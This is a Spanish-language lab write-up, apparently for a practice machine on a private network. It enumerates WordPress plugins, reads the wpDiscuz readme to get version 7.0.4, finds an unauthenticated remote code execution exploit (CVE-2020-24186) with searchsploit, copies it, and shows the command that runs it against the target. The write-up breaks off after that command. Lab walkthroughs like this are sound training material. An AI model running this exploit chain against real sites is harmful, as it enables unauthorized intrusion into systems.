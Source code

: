 Tenemso plugins
```bash
[+] akismet
 | Location: http://192.168.100.36/wordpress/wp-content/plugins/akismet/
[+] wpdiscuz
 | Location: http://192.168.100.36/wordpress/wp-content/plugins/wpdiscuz/
```

Si revismos su archivo **readme** del pluguin **wpdiscuz**
```bash
Readme: http://192.168.100.36/wordpress/wp-content/plugins/wpdiscuz/readme.txt
```

Vemos lo siguiente:
```bash
del plugin wpdiscuz explicame esto

=== Comments - wpDiscuz ===
Contributors: gVectors Team
Tags: comment, comments, ajax comments, comment form, comment fields
Requires at least: 5.0
Tested up to: 5.4
Stable tag: 7.0.4 # Version actual
Requires PHP: 5.4 and higher
License: GPLv3
License URI: https://www.gnu.org/licenses/gpl-3.0.html
```

Ahora sabiendo su version, buscamos un exploit:
```bash
searchsploit wpDiscuz 7.0.4
```

Tenemos lo siguiente:
```bash
------------------------------------------------------------------------------------ ---------------------
 Exploit Title                                                             |  Path
------------------------------------------------------------------------------------ ---------------------
WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)  | php/webapps/49967.py
```

Nos descargamos este exploit
```bash
searchsploit -m php/webapps/49967.py
  Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/49967
     Path: /usr/share/exploitdb/exploits/php/webapps/49967.py
    Codes: CVE-2020-24186
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (864)
Copied to: /home/kali/labs/content/49967.py
```

```bash
python3 49967.py -u http://192.168.100.36/wordpress -p /index.php/2024/04/01/hola-mundo/
```
